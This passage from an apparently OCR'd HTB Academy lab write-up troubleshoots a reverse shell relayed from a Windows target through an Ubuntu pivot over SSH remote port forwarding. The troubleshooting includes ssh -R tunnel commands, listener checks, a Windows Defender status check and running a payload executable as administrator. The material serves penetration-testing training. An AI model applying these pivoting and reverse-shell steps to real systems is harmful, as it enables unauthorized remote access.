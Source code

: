 
## **Troubleshooting Common Issues**

### **1. Payload Not Connecting**
```bash
# Check if pivot port is listening
ssh ubuntu@10.129.202.64 netstat -tlnp | grep 8080

# Verify SSH tunnel is active
ps aux | grep "ssh -R"

# Test connectivity from Windows to pivot
telnet 172.16.5.129 8080
```

### **2. SSH Tunnel Issues**
```bash
# Use verbose mode for debugging
ssh -R 172.16.5.129:8080:0.0.0.0:8000 ubuntu@10.129.202.64 -vvv

# Check SSH server configuration
grep GatewayPorts /etc/ssh/sshd_config
```

### **3. Handler Not Receiving Connections**
```bash
# Verify handler is listening on all interfaces
netstat -tlnp | grep 8000

# Check firewall rules
iptables -L INPUT | grep 8000
```

### **4. Windows Payload Execution Issues**
```powershell
# Check Windows Defender
Get-MpPreference | Select-Object -Property DisableRealtimeMonitoring

# Run as administrator if needed
Start-Process -FilePath "C:\backupscript.exe" -Verb RunAs
```

---

## **HTB Academy Official Walkthrough**

### **Complete Step-by-Step Guide (HTB Academy)**

**Objective:** Obtain reverse shell from Windows target through Ubuntu pivot using SSH remote port forwarding.

